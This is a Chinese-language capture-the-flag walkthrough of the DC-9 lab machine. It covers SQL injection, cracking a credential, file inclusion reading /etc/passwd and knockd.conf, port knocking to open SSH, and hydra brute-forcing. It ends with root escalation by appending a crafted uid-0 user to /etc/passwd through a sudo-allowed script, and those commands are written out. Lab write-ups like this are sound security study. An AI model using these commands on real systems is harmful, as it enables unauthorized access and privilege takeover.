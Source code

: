 # DC-9
![](vx_images/183335832853539.png)
![](vx_images/271263684653272.png)
再去扫一下目录,没发现什么东西
看下这几个功能页面
一个搜索人名的功能,可能存在sql注入

![](vx_images/136748125662092.png)
尝试直接获shell
没有成功,不是root
![](vx_images/584318453075630.png)
去读取一下账号密码
找到admin,破解下密码transorbital1
![](vx_images/514838131530675.png)


进去后没啥功能,只能增加用户,php代码也不能写入
再翻翻数据库
找到一些用户和明文密码,看看能不能等上ssh
```
hydra -L user.txt -P passwords.txt ssh://192.168.111.142
```
![](vx_images/40244904436503.png)
提示连接被拒绝
nmap扫描时发现22端口被过滤,这条路走不了
在manage板块发现文件包含漏洞
加上参数file=../../../../..//etc/passwd
![](vx_images/125345211305361.png)
试一下伪协议data,php://input,都不行
再试一下apache,ssh日志包含,还是不行
看了下,用到端口敲门开启ssh(按特定顺序访问特定端口)
/etc/knockd.conf(策略配置文件)
![](vx_images/385353023997590.png)
```
 开门序列 ([openSSH])
​**sequence = 7469,8475,9842**​
​含义​：定义开门的“秘密握手”信号。客户端需要按顺序向服务器的这三个端口发送TCP SYN包（即尝试连接）。顺序必须是 7469 -> 8475 -> 9842。
​**seq_timeout = 25**​
​含义​：整个敲门序列必须在25秒内完成，否则无效。
​**command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT**​
​含义​：敲门成功后执行的命令。它使用 iptables 在防火墙规则链的最前面​（-I INPUT）插入一条规则，​允许（ACCEPT）​​ 来源IP（%IP% 是敲门客户端的IP地址）访问本机的22端口（SSH）。
​**tcpflags = syn**​
​含义​：只有携带SYN标志的TCP包（即连接初始化请求）才会被敲门服务识别，普通的已建立连接的数据包或其它类型的包会被忽略，这提高了隐蔽性和安全性。
2. 关门序列 ([closeSSH])
​**sequence = 9842,8475,7469**​
​含义​：定义关门的“秘密握手”信号。顺序与开门相反：9842 -> 8475 -> 7469。
​**seq_timeout = 25**​
​含义​：同样，整个序列需在25秒内完成。
​**command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT**​
​含义​：敲门成功后执行的命令。它使用 iptables ​删除（-D）​​ 之前为该IP地址添加的那条允许规则，相当于“撤销”其SSH访问权限。
​**tcpflags = syn**​
​含义​：同上，只识别SYN包。
```
![](vx_images/534162605729621.png)
ssh端口成功开启
接下来就去爆破
![](vx_images/457646405218274.png)
三个用户,都登上
sudo和suid提权都不行
在janitor用户下发现
![](vx_images/551756734304463.png)
将这几个密码放字典里再跑一遍
![](vx_images/21698760547542.png)
跑出个新的,发现有sudo权限
![](vx_images/287060097312865.png)
运行提示
![](vx_images/461143203214456.png)
找到test.py
![](vx_images/145383509414217.png)
将第一个参数内容追加到第二个参数
添加一个用户到/etc/passwd
使用openssl生成密码hash
```
openssl passwd -1 -salt 11111 hacker
```
![](vx_images/324607257572441.png)

这里使用单引号,转义$
```
echo 'test:$1$11111$gc5BCmUEPskaS3HEBT3MK/:0:0:root:/root:/bin/bash' > /tmp/hack.txt
```
```
sudo ./test /tmp/hack.txt /etc/passwd
```
成功写入
![](vx_images/593368178604985.png)
切换用户,获取flag

![](vx_images/85317571831737.png)




